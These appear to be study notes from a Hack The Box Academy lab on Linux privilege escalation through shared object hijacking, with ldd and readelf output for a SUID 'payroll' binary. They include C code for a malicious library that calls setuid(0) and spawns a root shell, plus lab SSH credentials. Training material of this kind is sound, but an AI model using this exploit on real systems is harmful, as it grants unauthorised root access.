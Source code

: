### ldd: Used to print the shared object required by a binary or shared object
- displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies
```
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

- libshared.so is a dependency for the payroll binary
- Possible to load shared libraries from custom locations such as the RUNPATH configuration
- Use the readelf utility to inspect libraries in preferred folders a la `/development`
- ==`/development` is writable by ALL users==

### Before compiling a library, find the function name that it's called by
```
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

- An error will be thrown indicating which function is missing
```
htb-student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

Compile the following:
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```


## Questions

IP
```
10.129.85.180
```

SSH
```
ssh htb-student@10.129.85.180
```

PASSWD
```
Academy_LLPE!
```


```
htb-student@NIX02:~/shared_obj_hijack$ ls -la
total 60
drwxr-xr-x 2 root        root         4096 Jan 25 11:28 .
drwxr-xr-x 7 htb-student htb-student  4096 Jun 23 17:52 ..
-rw-r--r-- 1 htb-student htb-student   195 Sep  1  2020 dbquery.c
-rw-r--r-- 1 htb-student htb-student    20 Sep  1  2020 dbquery.h
-rwxr-xr-x 1 htb-student htb-student 16200 Sep  1  2020 libshared.so
-rwsr-xr-x 1 root        root        16728 Sep  1  2020 payroll
-rw-r--r-- 1 htb-student htb-student   126 Sep  1  2020 payroll.c
-rw-r--r-- 1 htb-student htb-student   141 Sep  1  2020 src.c
htb-student@NIX02:~/shared_obj_hijack$ 
```

Execute ldd on `payload`
```
htb-student@NIX02:~/shared_obj_hijack$ ldd payroll
        linux-vdso.so.1 (0x00007ffd377f0000)
        libshared.so => /development/libshared.so (0x00007f35f8599000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f35f81a8000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f35f879b000)
```

Verify the runpath:
```
htb-student@NIX02:~/shared_obj_hijack$ readelf -d payroll | grep PATH
 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```


Get the glibc version
```
htb-student@NIX02:~/shared_obj_hijack$ ldd --version
ldd (Ubuntu GLIBC 2.27-3ubuntu1.6) 2.27
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```

